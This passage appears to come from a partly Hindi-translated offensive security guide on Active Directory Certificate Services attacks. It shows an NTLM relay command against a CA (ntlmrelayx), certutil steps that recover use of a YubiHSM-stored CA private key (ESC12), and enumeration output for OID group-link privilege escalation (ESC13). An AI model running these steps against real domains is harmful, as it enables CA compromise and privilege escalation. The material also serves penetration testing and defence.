 या [sploutchy के impacket की fork](https://github.com/sploutchy/impacket) का उपयोग करें:
``` bash
$ ntlmrelayx.py -t rpc://192.168.100.100 -rpc-mode ICPR -icpr-ca-name DC01-CA -smb2support
```
## एडीसीएस सीए को YubiHSM के साथ शैल एक्सेस - ESC12

### स्पष्टीकरण

प्रशासक सर्टिफिकेट अथॉरिटी को "Yubico YubiHSM2" जैसी बाह्य उपकरण पर सेट अप कर सकते हैं।

यदि USB उपकरण सीए सर्वर से एक USB पोर्ट के माध्यम से कनेक्ट किया गया है, या एक USB उपकरण सर्वर की स्थिति में, तो YubiHSM में कुंज संग्रह प्रदाता के लिए एक प्रमाणीकरण कुंज (कभी-कभी "पासवर्ड" के रूप में संदर्भित) की आवश्यकता होती है ताकि कुंज उत्पन्न और उपयोग कर सके।

यह कुंज/पासवर्ड स्पष्ट पाठ में `HKEY_LOCAL_MACHINE\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword` के तहत रजिस्ट्री में संग्रहीत है।

संदर्भ [यहाँ](https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm) में।

### दुरुपयोग स्थिति

यदि सीए की निजी कुंज एक भौतिक USB उपकरण पर संग्रहीत है जब आपके पास शैल एक्सेस है, तो कुंज को पुनः प्राप्त करना संभव है।

पहले, आपको सीए सर्टिफिकेट प्राप्त करना होगा (यह सार्वजनिक है) और फिर:
```cmd
# import it to the user store with CA certificate
$ certutil -addstore -user my <CA certificate file>

# Associated with the private key in the YubiHSM2 device
$ certutil -csp "YubiHSM Key Storage Provider" -repairstore -user my <CA Common Name>
```
## OID ग्रुप लिंक दुरुपयोग - ESC13

### व्याख्या

The `msPKI-Certificate-Policy` attribute allows the issuance policy to be added to the certificate template. The `msPKI-Enterprise-Oid` objects that are responsible for issuing policies can be discovered in the Configuration Naming Context (CN=OID,CN=Public Key Services,CN=Services) of the PKI OID container. A policy can be linked to an AD group using this object's `msDS-OIDToGroupLink` attribute, enabling a system to authorize a user who presents the certificate as though he were a member of the group. [Reference in here](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53).

In other words, when a user has permission to enroll a certificate and the certificate is link to an OID group, the user can inherit the privileges of this group.

Use [Check-ADCSESC13.ps1](https://github.com/JonasBK/Powershell/blob/master/Check-ADCSESC13.ps1) to find OIDToGroupLink:
```powershell
Enumerating OIDs
------------------------
OID 23541150.FCB720D24BC82FBD1A33CB406A14094D links to group: CN=VulnerableGroup,CN=Users,DC=domain,DC=local

OID DisplayName: 1.3.6.1.4.1.311.21.8.3025710.4393146.2181807.13924342.9568199.8.4253412.23541150
OID DistinguishedName: CN=23541150.FCB720D24BC82FBD1A33CB406A14094D,CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local
OID msPKI-Cert-Template-OID: 1.3.6.1.4.1.311.21.8.3025710.4393146.2181807.13924342.9568199.8.4253412.23541150
OID msDS-OIDToGroupLink: CN=VulnerableGroup,CN=Users,DC=domain,DC=local
------------------------
Enumerating certificate templates
------------------------
Certificate template VulnerableTemplate may be used to obtain membership of CN=VulnerableGroup,CN=Users,DC=domain,DC=local

```